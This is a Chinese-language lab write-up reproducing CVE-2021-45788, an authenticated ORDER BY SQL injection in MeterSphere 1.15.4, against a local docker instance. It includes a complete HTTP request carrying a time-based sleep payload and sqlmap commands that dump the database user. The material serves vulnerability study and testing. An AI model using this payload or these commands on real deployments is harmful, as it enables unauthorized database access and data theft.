



MeterSphere v1.15.4 认证用户SQL注入漏洞（CVE-2021-45788）¶
MeterSphere是基于GPLv3协议的一站式的开源持续测试平台。在其1.15.4版本及以前，testcase相关API存在一处基于Order by的SQL注入漏洞。
参考链接：
漏洞环境¶
执行如下命令启动一个MeterSphere 1.15.4服务器：
docker compose up -d
MeterSphere初始化成功后，访问http://your-ip:8081即可跳转到默认登录页面。
漏洞复现¶
首先，使用账号admin和密码metersphere来登录用户界面。
在http://your-ip:8081/#/track/case/all创建一个新的测试用例：

然后，发送如下数据包测试SQL注入漏洞（将其中的csrf token和session id替换成你自己的）：
POST /test/case/list/1/10 HTTP/1.1
Host: localhost.lan:8081
Content-Length: 3142
Accept: application/json, text/plain, */*
CSRF-TOKEN: [Your CSRF Token]
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Content-Type: application/json
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Cookie: MS_SESSION_ID=[Your Session ID]
Connection: close
{"orders":[{"name":"name","type":",if(1=1,sleep(2),0)"}],"components":[{"key":"name","name":"MsTableSearchInput","label":"commons.name","operator":{"value":"like","options":[{"label":"commons.adv_search.operators.like","value":"like"},{"label":"commons.adv_search.operators.not_like","value":"not like"}]}},{"key":"tags","name":"MsTableSearchInput","label":"commons.tag","operator":{"value":"like","options":[{"label":"commons.adv_search.operators.like","value":"like"},{"label":"commons.adv_search.operators.not_like","value":"not like"}]}},{"key":"module","name":"MsTableSearchInput","label":"test_track.case.module","operator":{"value":"like","options":[{"label":"commons.adv_search.operators.like","value":"like"},{"label":"commons.adv_search.operators.not_like","value":"not like"}]}},{"key":"priority","name":"MsTableSearchSelect","label":"test_track.case.priority","operator":{"options":[{"label":"commons.adv_search.operators.in","value":"in"},{"label":"commons.adv_search.operators.not_in","value":"not in"}]},"options":[{"label":"P0","value":"P0"},{"label":"P1","value":"P1"},{"label":"P2","value":"P2"},{"label":"P3","value":"P3"}],"props":{"multiple":true}},{"key":"createTime","name":"MsTableSearchDateTimePicker","label":"commons.create_time","operator":{"options":[{"label":"commons.adv_search.operators.between","value":"between"},{"label":"commons.adv_search.operators.gt","value":"gt"},{"label":"commons.adv_search.operators.ge","value":"ge"},{"label":"commons.adv_search.operators.lt","value":"lt"},{"label":"commons.adv_search.operators.le","value":"le"},{"label":"commons.adv_search.operators.equals","value":"eq"}]}},{"key":"updateTime","name":"MsTableSearchDateTimePicker","label":"commons.update_time","operator":{"options":[{"label":"commons.adv_search.operators.between","value":"between"},{"label":"commons.adv_search.operators.gt","value":"gt"},{"label":"commons.adv_search.operators.ge","value":"ge"},{"label":"commons.adv_search.operators.lt","value":"lt"},{"label":"commons.adv_search.operators.le","value":"le"},{"label":"commons.adv_search.operators.equals","value":"eq"}]}},{"key":"creator","name":"MsTableSearchSelect","label":"api_test.creator","operator":{"options":[{"label":"commons.adv_search.operators.in","value":"in"},{"label":"commons.adv_search.operators.not_in","value":"not in"},{"label":"commons.adv_search.operators.current_user","value":"current user"}]},"options":{"url":"/user/list","labelKey":"name","valueKey":"id"},"props":{"multiple":true}},{"key":"reviewStatus","name":"MsTableSearchSelect","label":"test_track.review_view.execute_result","operator":{"options":[{"label":"commons.adv_search.operators.in","value":"in"},{"label":"commons.adv_search.operators.not_in","value":"not in"}]},"options":[{"label":"test_track.review.prepare","value":"Prepare"},{"label":"test_track.review.pass","value":"Pass"},{"label":"test_track.review.un_pass","value":"UnPass"}],"props":{"multiple":true}}],"filters":{"reviewStatus":["Prepare","Pass","UnPass"]},"planId":"","nodeIds":[],"selectAll":false,"unSelectIds":[],"selectThisWeedData":false,"selectThisWeedRelevanceData":false,"caseCoverage":null}
可见，成功演示了2秒左右：

使用SQLMap来获取数据库用户信息：
python sqlmap.py -r req.txt --dbms mysql --technique T --prefix , --level 3
python sqlmap.py -r req.txt --dbms mysql --technique T --prefix , --level 3 --current-user
